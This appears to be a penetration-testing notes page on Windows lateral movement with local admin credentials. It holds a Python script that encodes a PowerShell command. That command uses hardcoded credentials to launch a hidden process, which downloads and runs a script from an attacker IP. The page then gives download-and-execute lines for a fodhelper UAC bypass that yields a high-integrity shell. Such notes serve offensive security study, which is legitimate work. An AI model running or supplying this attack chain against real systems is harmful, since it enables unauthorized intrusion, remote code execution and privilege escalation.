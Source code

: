 # Local Admin Lateral Movement

Useful if unable to PsExec, RDP, WINRM, but has local admin creds and low-privileged shell

**ps\_script.py**

* Edit lines 5-6 to be local admin creds
* Edit line 8 for attacker's IP for simple\_ps\_revshell

{% code lineNumbers="true" %}
```python
import base64

# Prepare the corrected PowerShell payload script to run as Bill
payload = (
    "$p=ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force; "
    "$c=New-Object System.Management.Automation.PSCredential('client02\\bill',$p); "
    "Start-Process -FilePath 'powershell.exe' -ArgumentList "
    "'-NoProfile -ExecutionPolicy Bypass -Command iex (New-Object Net.WebClient).DownloadString(''http://192.168.45.218/runall.ps1'')' "
    "-Credential $c -WindowStyle Hidden"
)

# Encode the payload in UTF-16LE and then Base64
b64 = base64.b64encode(payload.encode('utf-16le')).decode('ascii')

# Construct the final one-liner for execution
one_liner = f"powershell.exe -NoProfile -NonInteractive -EncodedCommand {b64}"

# Display the one-liner
print(one_liner)
```
{% endcode %}

python ps\_script.py

<figure><img src="../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>

Then paste the encoded powershell command in the low privileged shell

<figure><img src="../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (337).png" alt=""><figcaption><p>This is normal!</p></figcaption></figure>

Might obtain a medium integrity shell only (checked using `whoami /all`)

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

[Bypass UAC using fodhelper.ps1](../privilege-escalation/privilege-escalation-windows.md#user-in-local-group-with-admin-privileges-uac-bypass)

```
iex (new-object net.webclient).downloadstring('http://192.168.45.218/FodhelperBypass.ps1')

# Edit IP and port in simple_ps_revshell.ps1
FodhelperBypass -program "powershell -c iex (new-object net.webclient).downloadstring('http://192.168.45.218/runall.ps1')"
```

Obtained high integrity shell&#x20;

<figure><img src="../.gitbook/assets/image (338).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (339).png" alt=""><figcaption></figcaption></figure>
